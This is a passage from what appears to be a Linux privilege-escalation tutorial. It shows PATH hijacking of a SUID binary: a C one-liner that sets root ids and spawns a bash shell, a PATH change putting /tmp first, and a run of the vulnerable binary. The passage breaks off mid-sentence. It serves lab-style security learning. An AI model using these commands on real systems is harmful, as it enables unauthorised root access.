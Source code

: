 ![Privilege Escalation](./Image/36.png)

You can inject malicious code by compiling and placing it in a directory that will be before the real executable in the ```PATH``` variable:

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

Afterwards, modify the `PATH` to prioritize the injected code:

```bash
export PATH=/tmp:$PATH
```

Execute the vulnerable SUID binary:

```bash
/usr/local/bin/suid-env
```

![Privilege Escalation](./Image/35.png)

This method works when the command doesn't call executables by their full path. However, if the full path is used, such as:

![Privilege Escalation](./Image/37.png)
